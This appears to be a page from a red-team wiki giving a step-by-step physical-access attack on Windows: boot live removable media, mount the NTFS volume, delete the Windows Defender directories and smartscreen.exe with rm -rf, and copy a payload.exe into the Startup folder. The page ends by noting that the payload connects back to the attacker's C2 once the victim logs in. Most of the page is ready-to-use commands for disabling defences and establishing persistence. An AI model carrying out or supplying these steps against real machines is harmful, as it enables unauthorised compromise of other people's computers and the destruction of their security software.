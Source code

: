 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - physical-pentesting
  - defense-evasion
  - maintaining-access
  - persistence
  - windows
  - linux
credits:
  - tokyoneon
---
```

# Live Removable Media

## 01 - Access The Boot Manager

When the system is booting it may prompt a specific keystroke to press by accessing the boot manager. If not depending on the vendor's motherboard, do a quick search of which keystroke to access the boot manager.

## 02 - Mount NTFS Drive

```
# fdisk -l

# mount -t ntfs /dev/sdX[n] /mnt/
```

## 03 - Disable Security Defenses (Optional)

### 3.1 - Windows Security

```
# find /mnt/ -type d -iname *Windows\ Defender*
```

Delete security endpoints.

```
# find /mnt/ -type d -iname *Windows\ Defender* -exec rm -rf {} \;
```

### 3.2 - Smartscreen

Delete `smartscreen.exe`.

```
# find /mnt/ -iname smartscreen.exe -exec rm -rf {} \;
```

### 3.3 - Third Party Endpoints

Refer to the **Wiki Backlinks** to bypass third party endpoints.

## 04 - Copy Payload to Startup

### 4.1 - All Users

```
# cp payload.exe "/mnt/<windows_volume_name>/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
```

### 4.2 - Specific User

Enumerate the available users.

```
# ls /mnt
```

Then copy the payload to startup directory.

```
# cp payload.exe "/mnt/<windows_volume_name>/Users/<username>/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
```

## 05 - Unmount the NTFS Drive

After you've dropped the payload in the target's machine. Wait for the target to login to their machine to receive an established connection to your C2.

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Active Directory/0xA - Users/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xA - Users/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/05 - Security Endpoints/Windows/Microsoft/Endpoints/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/05 - Security Endpoints/Windows/Third Party Endpoints/Living off the Land]]

### Null Byte

- [Null Byte: Hacking Windows 10 - How to Break into Somebody's Computer Without a Password (Exploiting the System)](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-exploiting-system-0183743)